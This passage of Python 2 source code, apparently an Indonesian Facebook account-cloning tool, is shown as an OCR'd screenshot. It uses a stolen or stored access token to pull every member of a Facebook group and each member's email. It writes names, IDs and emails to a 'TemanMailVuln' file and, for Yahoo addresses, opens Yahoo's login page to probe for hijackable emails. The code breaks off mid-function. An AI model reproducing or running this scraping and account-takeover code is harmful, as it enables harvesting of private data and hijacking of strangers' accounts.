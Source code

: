 					print("\033[1;96m[➹] \033[1;97mEmail\033[1;91m: \033[1;92m"+mail)
					print("\033[1;96m[➹] \033[1;97mNama \033[1;91m: \033[1;92m"+nama)
					save = open('out/TemanMailVuln.txt','a')
					save.write("Nama : "+ nama + '\n' "ID        : "+ id + '\n' "Email  : "+ mail + '\n\n')
					save.close()
					berhasil.append(mail)
		except KeyError:
			pass
	print 42*"\033[1;96m="
	print '\033[1;96m[\033[1;97m✓\033[1;96m] \033[1;92mSelesai \033[1;97m....'
	print"\033[1;96m[+] \033[1;92mTotal \033[1;91m: \033[1;97m"+str(len(berhasil))
	print"\033[1;96m[+] \033[1;92mFile tersimpan \033[1;91m:\033[1;97m out/TemanMailVuln.txt"
	raw_input("\n\033[1;96m[\033[1;97mKembali\033[1;96m]")
	menu()
	
def clone_dari_member_group():
	global toket
	os.system('clear')
	try:
		toket=open('login.txt','r').read()
	except IOError:
		print"\033[1;96m[!] \x1b[1;91mToken invalid"
		os.system('rm -rf login.txt')
		time.sleep(1)
		keluar()
	try:
		os.mkdir('out')
	except OSError:
		pass
	os.system('clear')
	print logo
	mpsh = []
	jml = 0
	print 42*"\033[1;96m="
	id=raw_input('\033[1;96m[+] \033[1;93mMasukan ID group \033[1;91m:\033[1;97m ')
	try:
		r=requests.get('https://graph.facebook.com/group/?id='+id+'&access_token='+toket)
		asw=json.loads(r.text)
		print"\033[1;96m[\033[1;97m✓\033[1;96m] \033[1;93mNama group \033[1;91m:\033[1;97m "+asw['name']
	except KeyError:
		print"\033[1;96m[!] \x1b[1;91mGroup tidak ditemukan"
		raw_input("\n\033[1;96m[\033[1;97mKembali\033[1;96m]")
		menu()
	jalan('\033[1;96m[✺] \033[1;93mMengambil email \033[1;97m...')
	teman = requests.get('https://graph.facebook.com/'+id+'/members?fields=name,id&limit=999999999&access_token='+toket)
	kimak = json.loads(teman.text)
	jalan('\033[1;96m[✺] \033[1;93mStart \033[1;97m...')
	print('\x1b[1;96m[!] \x1b[1;93mStop CTRL+z')
	print 42*"\033[1;96m="
	for w in kimak['data']:
		jml +=1
		mpsh.append(jml)
		id = w['id']
		nama = w['name']
		links = requests.get("https://graph.facebook.com/"+id+"?access_token="+toket)
		z = json.loads(links.text)
		try:
			mail = z['email']
			yahoo = re.compile(r'@.*')
			otw = yahoo.search(mail).group()
			if 'yahoo.com' in otw:
				br.open("https://login.yahoo.com/config/login?.src=fpctx&.intl=id&.lang=id-ID&.done=https://id.yahoo.com")